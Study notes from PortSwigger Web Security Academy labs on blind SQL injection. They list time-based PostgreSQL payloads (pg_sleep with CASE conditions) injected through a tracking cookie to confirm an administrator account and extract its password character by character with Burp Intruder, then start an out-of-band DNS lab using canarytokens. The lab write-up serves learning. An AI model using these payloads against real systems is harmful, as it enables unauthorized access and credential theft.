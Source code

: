 Target: Login with administrator data

application uses a tracking cookie for analytics

The database contains a different table called `users`, with columns called `username` and `password`

`'%3b+SELECT+pg_sleep(10)+--`

- `'; SELECT pg_sleep(10) --` and encode to url encode key charcatars.

- made a delay then DB is postgresql

`'; SELECT CASE WHEN(1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users --`

- encode url 

- make delay 

`' ; SELECT CASE WHEN(1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users where username='administrator' --`

- make delay 

- there is administrator

`' ; SELECT CASE WHEN(password like 'a%') THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users where username='administrator' --`

- this will return password using sniper attack in intruder make the payload in place of a and each response take more than 1 minute it's char is part of password 

`' ; SELECT CASE WHEN(password like '02ob8m3fcgs6rlv6w35w%') THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users where username='administrator' --`

- and this is our password

- now login with this creadantal 

---

## [Lab: Blind SQL injection with out-of-band interaction | Web Security Academy](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)

TrachingId is the vulnarable cookie with sqli

server work **Asynchronous** so **Time Based sqli**, won't work -> *to close Time Based make server work Asynchronous*.

Target - send DNS lookup to indicate a PoC 

[https://canarytokens.org/generate](https://canarytokens.org/generate)

- as we use free version in burbsuite, this make a unique subdomain for you.

- choose **DNS** and write your email and alert message.

- save the subdomain you got

- it send alert in email you enterd  if someone lookup for this subdomain
